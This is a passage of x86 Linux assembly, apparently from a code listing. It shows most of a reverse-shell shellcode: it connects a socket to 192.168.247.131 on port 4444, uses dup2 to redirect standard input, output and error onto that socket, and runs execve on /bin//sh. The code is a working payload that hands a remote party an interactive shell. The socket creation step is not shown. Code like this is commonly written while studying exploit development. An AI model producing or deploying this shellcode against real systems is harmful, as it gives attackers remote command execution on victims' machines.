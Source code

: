 ```asm


	;************************;
	; connect to ip and port ;
	;************************;


	; 0x66 for socketcall
	mov al, 0x66

	inc ebx
	
	; push struct to stack
	push 0x83f7a8c0		; ip: aton(192.168.247.131)

	push word 0x5C11	; port: htons(4444) - 0x5C11
	push bx			; AF_INET - 0x2

	inc ebx			; 0x3 SYS_CONNECT

	; store reference to struct
	mov ecx, esp

	; push connect args
	push 0x10	; size of struct
	push ecx	; struct sock_addr
	push edi	; sockfd

	mov ecx, esp
	int 0x80	; socketcall(SYS_CONNECT, {sockfd, sock_addr, addrlen})


	;******************;
	; redirect outputs ;
	;******************;


	mov ebx, edi	; sockfd arg
	xor ecx, ecx
	mov cl, 0x2	; set up counter

dup:
	mov al, 0x3f	; dup2
	int 0x80	; dup2(sockfd, [cl])
	dec ecx
	jns dup
	

	;*****************;
	; execute a shell ;
	;*****************;


	push edx	; null terminate the string
	push 0x68732f2f	; push hs//
	push 0x6e69622f	; push nib/

	mov ebx, esp	; move null terminated string into register

	mov ecx, edx	; 0x0
	mov al, 0xB	; syscall - execve
	int 0x80	; execve("/bin//sh", NULL, NULL)
```